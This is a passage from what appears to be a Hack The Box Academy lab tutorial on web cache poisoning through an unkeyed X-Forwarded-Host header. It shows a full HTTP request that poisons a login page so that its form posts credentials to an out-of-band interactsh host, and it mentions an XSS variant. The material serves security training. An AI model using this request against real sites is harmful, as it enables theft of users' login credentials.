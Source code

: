 * * *

## Identification

After starting the web application in the exercise below, we see a login view. Since we do not have credentials there is not much we can do at this point. So let's investigate the web application for keyed parameters. We can apply the same logic from the previous sections to determine that both the path and the host header are keyed. There are no GET parameters to test.

Additionally, we can see that the web application uses the host header to construct the absolute URL of a JavaScript import and the action of the login form:

![image](https://academy.hackthebox.com/storage/modules/189/hostheader/wcp_1.png)

Since the host header is keyed, this by itself is not sufficient to poison the cache for other users. However, if we try to inject override headers, the web application prefers the override header `X-Forwarded-Host` over the host header. Applying the same testing logic we can deduce that the X-Forwarded-Host header is unkeyed, making the web application vulnerable to web cache poisoning. Keep in mind that we need to use a fresh value for the host header to act as a cache buster:

![image](https://academy.hackthebox.com/storage/modules/189/hostheader/wcp_2.png)

* * *

## Exploitation

We could exploit this in two different ways:

- Since the web application uses our malicious input for a JavaScript import, we could point it to a server under our control, host a script file, and execute an XSS attack against all users that get served the poisoned cache
- Since the web application also uses our malicious input for the action of the login form, we could point it to a server under our control and wait for a user to log in. This would send the login credentials to our server

We are going to execute the second approach. To do that, let's use `interact.sh` again: [https://app.interactsh.com/](https://app.interactsh.com/). Copy the domain generated by interact.sh to the X-Forwarded-Host header. Now we just need to know the host header other users are using for the application. In a real-world setting, this value would be obvious as we already know the target's URL, for instance, `www.hackthebox.com`. In our case, let's assume the domain is `admin.hostheaders.htb`. So the full request to poison the cache looks like this:

```http
GET /login.php HTTP/1.1
Host: admin.hostheaders.htb
X-Forwarded-Host: cf187gp2vtc0000b03cgg8owd3ayyyyyb.oast.fun

```

Send the request twice and ensure that the second request is a cache hit. Now we just have to wait for another user to log in. After some time we should see a request on interact.sh containing the administrator's credentials:

![image](https://academy.hackthebox.com/storage/modules/189/hostheader/hostheader_wcp_3.png)
